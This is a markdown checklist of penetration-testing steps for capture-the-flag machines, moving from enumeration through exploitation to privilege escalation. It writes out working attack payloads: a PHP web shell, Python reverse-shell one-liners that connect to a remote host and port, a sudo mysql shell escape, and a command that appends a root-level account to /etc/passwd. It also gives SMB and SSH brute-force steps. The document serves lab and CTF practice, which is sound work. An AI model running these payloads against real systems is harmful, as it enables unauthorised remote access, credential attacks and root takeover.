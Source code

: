 # Checklist for CTF

This is an attempt to create mindmap oriented checklist for CTF and no reason can this not extend to bug bounty too.

- [ ] Find IP of the machine
	- [ ] `export IP=<MACHINE_IP>`
	- [ ] `export MACHINE_NAME=<MACHINE_NAME>`
- [ ] Set folder structure
	- [ ] `cd ctf/`
	- [ ] `mkdir -p $MACHINE_NAME/enum`
	- [ ] `mkdir -p $MACHINE_NAME/files`
	- [ ] `touch $MACHINE_NAME/enum/users.txt`
	- [ ] `cp templates/report.md ctf/$MACHINE_NAME/${MACHINE_NAME}.md`
- [ ] Set hostname in etc/hosts (if helps)




- [ ] Enum
	- [ ] Nmap
		- [ ] [Howto](active-information-gathering/nmap.md)
			- [ ] Copy key findings to report
			- [ ] check results
			- [ ] Paste to [report](templates/report.md)
			- [ ] Highlight exploitables/targets
	- [ ] Rustscan
		- [ ] check results
  - [ ] `enum4linux $IP` -> users, share, comon structure, server block.
    - [ ] Highlights
      - [ ] check results 
      - [ ] Check SMB null session
      - [ ] system level users
	- [ ] nmap-nse
  	- [ ] [Howto](active-information-gathering/nmap.md#nmap-nse)
	- [ ] smb/netbio-ssn
		- [ ] Ports [139, 445]
		- [ ] `mkdir smb`
		- [ ] `nmap -p139,445 --script=smb-enum-shares $IP`
			- [ ] `smbclient //<IP>/IPC$ -N (/ADMINS/)` -> N: smb null session.
			- [ ] smbclient //'IP'/qui -N
			- [ ] crackmapexec
			- [ ] mfsconsole > use auxilaiary(scanner/smb/smb_login) > set pass rockyou.
		- [ ] `smbmap -H $IP`
		- [ ] `smbclient --no-pass -L //$IP`
		- [ ] `smbclient --no-pass \\\\$IP\\anonymous`
		- [ ] `smbclient \\\\$IP\\ITDEPT anonymous` [Tested]
		- [ ] `mget file.name`
		- [ ] `smbmap -u <user> -p <PassWord> -H $IP`
		- [ ] `smbclient //'IP'/<share> -U'user'%'password'`
		- [ ] `smbclient //$IP/secured -U <user>%<password> -c "prompt OFF;recurse ON;mget *"`
	- [ ] ssl/pop3 [110]
	- [ ] ssl/imap [993/143]
	- [ ] Apache Tomcat [8080]
		- [ ] Read Version
		- [ ] Check URL (hints)
		- [ ] default credentials
		- [ ] mfsconsole /is it allowed?
	- [ ] Domain [53]
	- [ ] Web Enum
		- [ ] Load each targetted port in browser
		- [ ] export PORT=80
		- [ ] `dirb http://$IP:$PORT/ -r`
		- [ ] `nikto --host http://<IP> -C all` :: tool for webapp
		- [ ] `export URL=${IP}:8080/FUZZ` or `export URL=${IP}:8080/FUZZ/`
			- [ ] HTTPS you will want to include protocol too
			- [ ] `wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"`
		- [ ] `gobuster dir -u http://$IP -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt`  :: helpful during bruteforce
		- [ ] framework/server/service -> searchexploit
		- [ ] Check for config through URL's like 
		- [ ] hostname/username/re-use etc
		- [ ] LFI
			- [ ] check for ssh keys
			- [ ] check for service/app configuration file (e.g: /etc/tomcat7/tomcat-users)
			- [ ] vsftpd -> upload, to rce from upload file
		- [ ] RFI
			- [ ] rev shell
				- [ ] https://www.revshells.com/
				- [ ] `python -c 'import pty;pty.spawn("/bin/bash")'`
		- [ ] `linpeas.sh`
		- [ ] CUPS Http `631`
	- [ ] SSH
		- [ ] hydra
			- [ ] [Howto](tools/bruteforce/ssh/hydra) 
	- [ ] `curl -A "GoogleBot" http://$IP/robots.txt`
	- [ ] searchsploit
	- [ ] Port knocking
		- [ ] nmap port knock 
- [ ] /cgi-bin
	- [ ] shellshock [Howto](foothold/shellshock)
- [ ] morse code?



- [ ] Remote Code Execution
	- [ ] `<?php system($_GET['cmd']);?>`
	- [ ] Verify RCE
		- [ ] e.g : `http://$IP/<path>/?lang=/var/ftp/pub/backdoor.php&cmd=id`.`
		- [ ] Payload:
			- [ ] https://github.com/nullbr41n/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
			- [ ] payload converter (hURL)
			- [ ] `python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`
			- [ ] `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`


- [ ] Reverse Shell
	- [ ] web uploads
		- [ ] `nc - nlvp 1` `Listening on port 1`
		- [ ] Upload payload on other side, should open connection
		- [ ] check RCE section.
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`


- [ ] privileges escalation
	- [ ] `sudo -l`
	- [ ] password re-use
		- [ ] from credentials founds in enum
		- [ ] `su - <user>`
			- [ ] ***Stabilize Shell $***
				- [ ] `which python` -> python is here
				- [ ] `python -c 'import pty; pty.spawn("/bin/bash")'` -> import valid tty
				- [ ] `tty` quick test 
				- [ ] `export TERM=xterm-256color`  ⇾ export our terminal
				- [ ] `alias ll='clear ; ls -lsaht --color-auto'` ⇾ export ll command
				- [ ] `stty raw -echo; fg; reset` -> stable shell by control Z & backgrounding it
				- [ ] `stty columns 200 rows 200`
		- [ ] e.g: `sudo /usr/bin/mysql -e '\! /bin/sh'`  [sudo nopass for mysql](https://gtfobins.github.io/gtfobins/mysql/#sudo)
	- [ ] `netstat -tupanl | grep -i '127.0.0.1'` -> anything running on loopback
	- [ ] `find / -perm -u=s -type f 2>/dev/null` 
		- [ ] *_The first step is to identify all programs or files that have SUID bits enabled_*
			- [ ] example
				- [ ] /usr/bin/zsh
		- [ ] Read Source Code (if any)
		- [ ] look for files owned by root grouped by user.
		- [ ] `ps aux | grep -i 'root' --auto-color` <-- anything running as root?
			- [ ] lateral machines? (not done anything like this)
			- [ ] private ip address? (not done anything)
			- [ ] web root -> any db credes?
	- [ ] Take advantage of this misconfiguration by abusing the PATH variable
	- [ ] Take advantage of misconfigured cronjob.
	- [ ] `find / -perm -u=g -type f 2>/dev/null` -> Are there any GUID
	- [ ] simple HTTP server
		- [ ] download pspy
		- [ ] Second shell -> `pspy<BIT>`
		- [ ] `getcap -r / 2>/dev/null` -> Are there any extended permissions
		- [ ] exploit miss-configuration
	- [ ] writeable `passwd`?
		- [ ] `perl -le 'print crypt("PassWord","addedsalt")'`
		- [ ] `echo "nullBrain:saltedvaluefromabove:0:0:User_like_root:/root:/bin/bash" >> /etc/passwd`
